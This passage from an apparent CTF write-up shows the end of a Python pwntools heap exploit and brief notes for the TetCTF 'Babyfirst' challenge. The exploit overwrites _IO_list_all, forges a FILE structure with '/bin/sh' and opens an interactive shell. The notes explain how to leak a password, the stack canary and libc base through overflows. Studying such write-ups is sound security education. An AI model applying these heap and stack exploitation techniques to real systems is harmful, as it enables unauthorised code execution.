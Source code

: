 ```python
 
    # Alloc so _IO_list_all is overwritten to main_arena
    optalloc()  # 2
    
    # Now we need to fake a FILE at chunk 3 (0x140)
    # Edit chunk 1/2 to write /bin/sh to the beginning of chunk 3
    payload = 'F' * (144 - 8)
    payload += '/bin/sh'
    optedit(2, 0x1336, payload)

    # Craft filestream
    # Magic: _IO_read_end
    # _IO_read_base
    fs = p64(addrs['iolistall'] - 0x10)
    fs += p64(0) + p64(1) # _IO_write_base < _IO_write_ptr
    fs = fs.ljust(143, '\x00')
    optedit(3, 0x0, fs)
    r.interactive() 

def main():
    raw_input('pwn?')
    global libcbase
    global heapbase
    libcbase, heapbase = leak()
    print("libc @ {:#x}".format(libcbase))
    print("heap @ {:#x}".format(heapbase))
    heapexp()
    r.close()

if __name__ == '__main__':
    main()
```

<a name="TetCTF-babyfirst"></a>

### Babyfirst

- The binary has all protections on.
- The binary implements its own read function.
- The binary reads a password of length 0x20 from /dev/urandom
- Login function:
    - If the username starts with `admin` then prompt for a password.
    - Otherwise save the username to the buffer and count that as a logged in user.
- Leak password:
    - Input an accepted username of length 0x20 so it reaches the password buffer. The username must not starts with `admin` so it can be saved to the buffer without a password.
    - Choose to play so the username with the password is printed out.
- Play function:
    - It reads input of length 128 maximum and output it. This is stack overflow so we can leak the canary, binary base and libc base all in here.
    - After that, this can be a normal BoF challenge.
